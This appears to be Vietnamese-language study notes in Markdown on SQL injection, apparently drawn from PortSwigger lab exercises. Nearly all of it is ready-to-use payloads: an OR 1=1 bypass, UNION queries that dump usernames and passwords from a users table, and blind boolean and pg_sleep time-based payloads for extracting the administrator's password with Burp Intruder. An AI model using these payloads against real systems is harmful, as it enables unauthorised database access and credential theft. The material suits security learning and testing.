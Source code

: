 # SQL Injection

## Simple attack

* SELECT * FROM products WHERE category = 'Gifts' AND released = 1 **'+OR+1=1--**

## Union attack

>Xác định số cột trả về*
* **'+UNION+SELECT+NULL,NULL--**

>Xác định cột có kiểu dữ liệu là char*
* **'+UNION+SELECT+'abcdef',NULL,NULL--**

>Trường hợp chỉ có 1 cột trả về kiểu char nhưng cần lấy giá trị của 2 cột => Nối giá trị*
* **'+UNION+SELECT+NULL,username||'~'||password+FROM+users--**

## Blind SQL Injection
>Dựa trên sự khác biệt trên resposne trả về*
* TrackingId=x **'+OR+1=1--**
* TrackingId=x **'+OR+1=2--**

* TrackingId=x **'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'--**
* TrackingId=x **'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+length(password)>1--**
* TrackingId=x **'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,1,1)='§a§'--**
*Sử dụng công cụ Burp Intruder với option Cluster bomb.*

> Dựa trên thông báo lỗi trả về*

> Dựa trên thời gian delay của truy vấn*
* TrackingId=x **'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--**
* TrackingId=x **'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--**

* TrackingId=x **'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--**
* TrackingId=x **'%3BSELECT+CASE+WHEN+(username='administrator'+AND+length(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--**

## Links

[SQL Injection cheat](https://portswigger.net/web-security/sql-injection/cheat-sheet).